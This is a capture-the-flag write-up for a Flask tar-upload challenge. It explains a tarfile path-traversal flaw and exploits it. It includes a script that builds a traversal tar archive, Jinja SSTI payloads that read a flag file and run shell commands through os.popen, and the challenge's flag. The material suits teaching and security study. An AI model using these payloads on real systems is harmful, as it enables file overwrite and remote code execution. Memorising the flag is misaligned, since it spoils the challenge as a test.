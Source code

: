 ```yaml
---
title: Tar boom
author:
description: Within the Louvre Museum's intranet, there is a service that allows trusted users to upload .tar files and view their content. However, this service has been exploited by a hacker. He was able to retrieve crucial information about the Louvre's security, hidden within the flag.txt.
categories:
    - web
year: 2025
challengefiles: tarboom.zip
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** We are given a small **Python Flask** web application allowing the upload of tar archives being unpacked by the backend.
    **- Vulnerability:** The used **Python** module **tarfile** is vulnerable to path traversal attacks via the file names of the extracted files, allowing the overwrite of arbitrary files.
    **- Exploitation:** Overwriting the `result.html` template containing an **SSTI** payload results in **RCE**.

# 1. Introduction<a id="introduction"></a>
Connecting to the server, we are greeted by a simple landing page inviting us to upload a tar archive:

![landing page](ctf/writeups/dvctf/tarboom/landing.png "landing page")

Uploading a tar archive with random test files leads us to the following overview showing the tree of files and directories the archive consists of:

![uploaded benign tar archive](ctf/writeups/dvctf/tarboom/normal_upload.png "uploaded benign tar archive")

# 2. Reconnaissance<a id="reconnaissance"></a>
Analyzing the code reveals that only tar files are accepted. Trying to upload any other file format will be rejected. During upload, the backend will unpack the archive with the **Python** module **tarfile**:

```python
def extract_tar(tar_path, extract_dir):
    try:
        with tarfile.open(tar_path, 'r:*') as tar:
            print(f"Extracting '{tar_path}' to '{extract_dir}'...")
            tar.extractall(path=extract_dir, filter='fully_trusted')
            print("Extraction completed successfully.")
    except tarfile.TarError as e:
        print(f"Error: Failed to extract the TAR file. {e}")
```

This processing is needed to print out the file tree after the upload. The extracted files are saved at `uploads/<tar-archive-name>`.

# 3. Vulnerability Description<a id="vulnerability description"></a>
The use of the **Python** module **tarfile** is well known for a directory traversal vulnerability and even got its own [CVE](https://nvd.nist.gov/vuln/detail/cve-2007-4559). In the code, the `extractall` function simply concatenates the current path with the file name:

```python
dirpath = os.path.join(path, tarinfo.name)
```

So by simply having a file name with several `../` as a prefix will result in arbitrary file write. To make it easier to generate this kind of archive, we can use the following script, adding the content of specific files with a name of your choice to your malicious tar archive:

```python
import tarfile

overwrites = [
    ('../', 'test.txt'),
]

with tarfile.open('malicious.tar', 'w') as tar:
    for directory, filename in overwrites:
        tar.add(filename, arcname=f'{directory}/{filename}')
```

This vulnerability was never fixed and probably will never be fixed. The previous maintainer even wrote an [article](https://www.gustaebel.de/lars/CVE-2007-4559.html) about the problems around fixing this vulnerability. This is not the only library being vulnerable to this kind of attack. There is a whole research around this topic and you might be interested in reading further in [Zip Slip Snyk](https://security.snyk.io/research/zip-slip-vulnerability) and [Zip Slip Github](https://github.com/snyk/zip-slip-vulnerability).

# 4. Exploitation<a id="exploitation"></a>
Although exploiting this vulnerability seems easy, you have to be careful picking a target for the arbitrary file write. You might think we could just simply overwrite the `scripts/tarExtract.py` file and thus serving our own **Python** code, which will be executed when this functionality is called. Another idea could be exploiting the **Python PATH** by simply adding an `os.py` file right next to the `app.py`. But sadly, both of these ideas won't work out as **Python** will always immediately load the needed modules into the memory. So once the **Python** modules are loaded, replacing the corresponding files won't do anything. As a side note, if the **Flask** server was started with `debug=True`, the aforementioned approaches will work, as the server will restart and reload the modules when file changes are detected. But in this challenge, this config is turned off. Luckily enough, **Python** will only lazy load all of the code. This means that only when needed for the first time, the modules are loaded into memory. Thus we have to find a file that is not immediately needed when connecting to the server. In this case, only the `result.html` is not immediately loaded. To get an arbitrary file read, which is enough to obtain the flag, we can simply extend the template with an **SSTI** as follows:

```html
<pre>
{{ get_flashed_messages.__globals__.__builtins__.open("/app/flag.txt").read() }}
{% for line in tree %}
{{ line }}
{% endfor %}
</pre>
    <a href="/">Upload another backup</a>
</div>
```

This will give us the flag:

![flag extracted](ctf/writeups/dvctf/tarboom/flag.png "flag extracted")

We can even escalate this further to **RCE** to fully pwn the web server with `{{ get_flashed_messages.__globals__['os'].popen('ls -alps').read() }}`:

![rce](ctf/writeups/dvctf/tarboom/rce.png "rce")

But keep in mind you will only be able to change the `result.html` template via the very first malicious upload, as afterwards, also this template is already loaded into memory by **Python**.


# 5. Mitigation<a id="mitigation"></a>
Although you might think you are safe because you got a filter, only allowing specific file extensions, won't be enough. Processing user input with any module should always be enjoyed with caution. Make sure to read the documentation and especially the security warnings to prevent vulnerabilities like in this challenge.

# 6. Flag<a id="flag"></a>
DVCTF{rWyjzMYiQ2Jgx8wLP8kA}

# 7. References<a id="references"></a>
- https://security.snyk.io/research/zip-slip-vulnerability
- https://github.com/snyk/zip-slip-vulnerability
